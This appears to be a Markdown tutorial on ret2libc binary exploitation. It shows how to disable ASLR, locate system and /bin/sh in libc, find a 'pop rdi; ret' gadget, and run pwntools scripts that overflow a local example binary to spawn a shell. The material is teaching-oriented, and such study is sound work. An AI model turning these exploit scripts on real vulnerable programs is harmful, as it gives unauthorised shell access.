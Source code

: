 ```yaml
---
title: Binary Exploitation with ret2libc
description: ret2libc (return-to-libc) allows an attacker to redirect the program's flow of execution from the current function to a function in a shared library, sucy as libc, the standard C library. The goal of libc is to execute malicious code, such as shellcode, by calling the standard library functions, such as system() or execve().
tags:
    - Reverse Engineering
refs:
    - https://ir0nstone.gitbook.io/notes/types/stack/return-oriented-programming/ret2libc
date: 2023-02-12
draft: false
---
```


## Exploitation

### 1. ASLR Bypass

First check the ASLR in the machine.

```bash
cat /proc/sys/kernel/randomize_va_space
```

If we get **“2”** as the result, the machine randomizes the address space so we cannot find the address of the system function. That’s why we need to bypass ASLR to find the address of the function in libc.

To disable ASLR, run the following command if we can (because it requires sudo).

```bash
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```

### 2. Find libc in the Binary

```bash
ldd ./example

# Result examples
linux-vdso.so.1 (0x00007ffff7ffa000)
libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007ffff79e2000)
/lib64/ld-linux-x86-64.so.2 (0x00007ffff7dd3000)
```

For instance, we found the libc.so.6 and the base address of libc is 0xf7dc2000 .

### 3. Find the Location of  libc

```bash
# -s: Display the symbols
readelf -s /lib/x86_64-linux-gnu/libc.so.6 | grep system

# Result
1403: 000000000004f550    45 FUNC    WEAK   DEFAULT   13 system@@GLIBC_2.2.5
```

### 4. Find the Location of /bin/sh

```bash
# -a: All scan
# -t x: Print the location of the string in hex (x) 
strings -a -t x /lib/x86_64-linux-gnu/libc.so.6 | grep /bin/sh

# Result
1b3e1a /bin/sh
```

### 5. Exploit

Replace the values of libc_base, system, binsh with the values which we found in the previous sections.

- **32-bit**

    ```python
    from pwn import *

    p = process('./example')

    libc_base = 0xf7dc2000
    system = libc_base + 0x4f550
    binsh = libc_base + 0x1b3e1a

    payload = b'A' * 76         # The padding
    payload += p32(system)      # Location of system
    payload += p32(0x0)         # return pointer - not important once we get the shell
    payload += p32(binsh)       # pointer to command: /bin/sh

    p.clean()
    p.sendline(payload)
    p.interactive()
    ```

- **64-bit**

    In 64-bit, we need to find the address of ‘pop rdi ; ret’ using [ROPgadget](https://github.com/JonathanSalwan/ROPgadget) .

    ```bash
    ROPgadget --binary ./example | grep rdi

    # Result
    0x00000000004007f3 : pop rdi ; ret
    ```

    In some cases, we might need to the return address for paddings.

    ```python
    objdump -d ./example | grep ret

    # Result
    400556:	c3                   	retq
    ```

    Finally our script is below:

    ```python
    from pwn import *

    p = process('./example')

    libc_base = 0x7ffff7de2000
    system = libc_base + 0x4f550
    binsh = libc_base + 0x1b3e1a

    POP_RDI = 0x4007f3

    payload = b'A' * 72         # The padding
    # payload += p64(0x400556)    # Extra paddings
    payload += p64(POP_RDI)     # gadget -> pop rdi; ret
    payload += p64(binsh)       # pointer to command: /bin/sh
    payload += p64(system)      # Location of system
    payload += p64(0x0)         # return pointer - not important once we get the shell

    # If we need to input in multiple prompts, 
    # p.clean()
    # p.sendline("1") e.g. "Select the menu:"
    p.clean()
    p.sendline(payload)
    p.interactive()
    ```